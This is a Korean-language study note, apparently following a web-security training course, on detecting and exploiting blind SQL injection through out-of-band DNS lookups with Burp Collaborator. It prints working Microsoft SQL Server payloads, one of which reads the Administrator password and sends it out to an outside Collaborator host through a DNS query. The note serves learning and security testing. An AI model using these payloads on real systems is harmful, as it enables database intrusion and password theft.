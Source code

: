 <br>

이 목적을 위해 다양한 네트워크 프로토콜을 사용할 수 있지만 일반적으로 가장 효과적인 것은 DNS(도메인 이름 서비스)이다. 많은 프로덕션 네트워크에서는 프로덕션 시스템의 정상적인 작동에 필수적이기 때문에 DNS 쿼리의 무료 송신을 허용한다.

<br>

> **OAST**
> <br>
> :Out-of-Band Application Security Testing. 진단자가 제어하는 인프라로 대상을 강제로 호출하여 웹 애플리케이션에서 악용 가능한 취약점을 찾는 방법
{: .prompt-tip }

<br>

out-of-band 기술을 사용하기에 가장 쉽고 신뢰할 수 있는 도구는 *Burp Collaborator*이다. 이는 DNS를 포함한 다양한 네트워크 서비스의 커스텀 구현을 제공하는 서버이다. 이를 통해 취약한 애플리케이션에 개별적인 페이로드를 전송한 결과 네트워크 상호작용이 발생하는 시기를 감지할 수 있다.

<br>

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

DNS 쿼리를 트리거하기 위한 기술은 사용하고 있는 데이터베이스의 종류에 따라 특정된다. 예를 들어, 위의 Microsoft SQL Server에 대한 입력 값을 사용하여 지정된 도메인에서 DNS 조회를 수행할 수 있다.

<br>

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

이는 위의 도메인에서 데이터베이스를 조회할 수 있게 해준다.

<br>

*Burp Collaborator*를 사용하여 고유한 서브 도메인을 생성하고 Collaborator Server를 poll하여 DNS 조회가 언제 발생하는지 확인할 수 있다.

<br>

## 🚩Lab: Blind SQL injection with out-of-band interaction

(Skipped)

<br>

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

out-of-band 상호작용을 트리거하는 방법을 확인한 후에는 위와 같이 out-of-band 채널을 사용하여 취약한 애플리케이션에서 데이터를 추출할 수 있다.

<br>

이 입력은 `Administrator` 사용자의 패스워드를 읽고, 고유한 Collaborator 서브 도메인을 추가하고, DNS 조회를 트리거한다. 이 조회는 캡쳐된 패스워드를 볼 수 있게 해준다.

<br>

Out-of-baand (OAST) 기술은 out-of-band 채널 내에서 직접적으로 데이터를 추출하는 능력과 높은 성공 확률 덕분에 블라인드 SQL 인젝션이 존재하는지 탐지하고 익스플로잇하는 강력한 방법이다. 이러한 이유로, OAST 기술은 다른 맹목적인 공격 기술이 작동하는 상황에서도 선호되는 경우가 많다.

<br>
